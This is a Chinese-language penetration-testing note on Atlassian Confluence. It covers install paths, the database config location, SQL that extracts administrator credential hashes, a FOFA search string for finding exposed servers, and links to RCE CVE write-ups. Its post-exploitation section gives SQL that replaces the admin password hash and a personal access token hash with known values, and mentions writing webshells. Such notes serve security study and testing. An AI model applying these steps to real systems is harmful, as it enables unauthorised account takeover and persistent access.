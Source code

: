 # Atlassian Confluence
# 0x01 基本知识
Confluence是一个专业的企业知识管理与协同软件，也可以用于构建企业wiki（多人协作的写作系统）。使用简单，但它强大的编辑和站点管理特征能够帮助团队成员之间共享信息、文档协作、集体讨论，信息推送。

## 1.1 文件目录

![image](https://user-images.githubusercontent.com/84888757/172709537-8aa6c309-e515-4586-a8d5-16147fbc8b6c.png)

(1) `<confluence-installation> `
  
安装目录，用于存储系统文件

默认安装位置：
```
Windows: C:/Program Files/Atlassian/Confluence/
Linux: /opt/atlassian/confluence/
```

(2) `<confluence-home>`

数据目录，用于存储数据

默认安装位置：

```
Windows: C:/Program Files/Atlassian/Application Data/Confluence/
Linux: /var/atlassian/application-data/confluence/
```

二者之间的联系：

`<confluence-installation>/confluence/WEB-INF/classes/confluence-init.properties` 文件中定义了`<confluence-home>`的位置

## 1.2 数据库信息

存储数据库配置信息的位置：`<confluence-home>/confluence.cfg.xml`

```
# Windows 默认路径
C:\Program Files\Atlassian\Application Data\Confluence\confluence.cfg.xml
# Ubuntu 默认路径
/var/atlassian/application-data/confluence/confluence.cfg.xml
```

![image](https://user-images.githubusercontent.com/84888757/172693620-4fcddc65-beb1-4a54-9c19-12e7b0655b0e.png)


## 1.3 用户信息

用户信息位于Confluence的数据库中

存储用户信息的表：`CWD_USER`，具体列名称如下：

```
user_name:用户名

active:是否启用

email_address:邮件地址

credential:用户凭据

directory_id:用户组，代表用户的权限

# directory_id 对应的具体用户组名称可通过以下方式查看：

查询表cwd_group中的group_name列，管理员用户组的值为`confluence-administrators`

查询表cwd_directory中的directory_name列，管理员用户组的值为`Confluence Internal Directory`

```

🚩 SQL命令在postgres数据库中执行，相关命令如下：
```
bash-5.1# psql -U postgres

# 查看数据库：
postgres=# \l
```

![image](https://user-images.githubusercontent.com/84888757/172711110-db4abd1b-8670-42ee-9cf2-4ad990173e42.png)

```
# 进入数据库：
postgres=# \c confluence
```

![image](https://user-images.githubusercontent.com/84888757/172711130-942e4f29-f2d5-4d42-87b7-bc5a1c4db98f.png)

直接筛选出管理员用户的SQL命令：

```
confluence=# select u.id,u.user_name,u.active,u.credential from cwd_user u  join cwd_membership m on u.id=m.child_user_id join cwd_group g on m.parent_id=g.id join cwd_directory d on d.id=g.directory_id where g.group_name = 'confluence-administrators' and d.directory_name='Confluence Internal Directory';
```

![image](https://user-images.githubusercontent.com/84888757/172711282-d9b98589-ecef-4333-8ed3-bc37d915d536.png)


## 1.4 日志文件位置

`<confluence-home>/logs/`

## 1.5 Web路径

`<confluence-installation>/confluence/`

Windows: Confluence默认权限为network service，具有写权限

Linux：Confluence默认权限为confluence，没有写权限


# 0x02 FOFA dork
  
> app="ATLASSIAN-Confluence"

# 0x03 Confluence 历史漏洞
- [Confluence 路径穿越与命令执行漏洞（CVE-2019-3396）](https://github.com/reidmu/sec-note/blob/main/%E6%BC%8F%E6%B4%9E%E7%A0%94%E7%A9%B6/Atlassian%20Confluence/Confluence%E8%B7%AF%E5%BE%84%E7%A9%BF%E8%B6%8A%E4%B8%8E%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E(CVE-2019-3396).md)

- [Confluence OGNL表达式注入代码执行漏洞（CVE-2021-26084）](https://github.com/reidmu/sec-note/blob/main/%E6%BC%8F%E6%B4%9E%E7%A0%94%E7%A9%B6/Atlassian%20Confluence/Confluence%20OGNL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E(CVE-2021-26084).md)
- Atlassian Confluence 远程代码执行（CVE-2022-26134）

# 0x04 Confluence 后利用思路

来自[3gstudent](https://www.4hou.com/posts/n6Z7)

## 4.1 修改数据库，实现用户登录
  
### 4.1.1 修改用户登录口令

登录url:`http://192.168.x.x:8090/login.action`

  - 🌰：查看用户关键信息，命令如下：
    `confluence=# select id,user_name,credential from cwd_user;`

    - ![image](https://user-images.githubusercontent.com/84888757/172711962-ba0a8150-e598-41cd-8471-95b0c46c457c.png)


  - 🌰：修改用户admin的口令信息，命令如下：
    `confluence=# UPDATE cwd_user SET credential= '{PKCS5S2}UokaJs5wj02LBUJABpGmkxvCX0q+IbTdaUfxy1M9tVOeI38j95MRrVxWjNCu6gsm' WHERE id = 425985;`

    - ![image](https://user-images.githubusercontent.com/84888757/172711892-d51aeeda-6515-49c7-9aac-ff99db74970e.png)


    - 🚩 注：`{PKCS5S2}UokaJs5wj02LBUJABpGmkxvCX0q+IbTdaUfxy1M9tVOeI38j95MRrVxWjNCu6gsm` 对应的明文为 `123456`
  
### 4.1.2 修改Personal Access Tokens
  - 使用Personal Access Tokens可以实现免密登录
  - 🌰：测试环境下，Personal Access Tokens对应表为AO_81F455_PERSONAL_TOKEN
  - 查询语句：`confluence=# select * from "AO_81F455_PERSONAL_TOKEN";`
  - 修改Personal Access Tokens，命令如下：`confluence=# UPDATE "AO_81F455_PERSONAL_TOKEN" SET "HASHED_TOKEN"= '{PKCS5S2}Deoq/psifhVO0VE8qhJ6prfgOltOdJkeRH4cIxac9NtoXVodRQJciR95GW37gR7/' WHERE "ID" = 4;`

    - 🚩 注：`{PKCS5S2}Deoq/psifhVO0VE8qhJ6prfgOltOdJkeRH4cIxac9NtoXVodRQJciR95GW37gR7/` 对应的token为 `MjE0NTg4NjQ3MTk2OrQ5JtSJgT/rrRBmCY4zu+N+NaWZ`


## 4.2 写文件
- Windows: Confluence默认权限为network service，具有写权限
- Linux： Confluence默认权限为confluence，没有写权限，可以尝试内存马
- Web路径：< confluence-installation>/confluence/


# 0x05 参考链接
- https://www.4hou.com/posts/n6Z7
